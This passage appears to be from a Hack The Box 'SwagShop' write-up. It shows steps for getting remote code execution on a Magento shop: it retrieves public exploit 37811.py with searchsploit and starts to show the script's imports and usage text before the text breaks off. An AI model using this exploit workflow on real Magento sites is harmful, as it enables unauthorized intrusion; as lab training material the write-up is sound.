    ![80 Admin Panel](./screenshots/30_swagshop/80_admin_panel.png)

4. Attempt Remote Code Execution using __`37811.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/php/webapps/37811.py
          Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37811
             Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
        File Type: Python script, ASCII text executable, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37811.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      from hashlib import md5
      import sys
      import re
      import base64
      import mechanize
      
      
      def usage():
          print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
          sys.exit()
      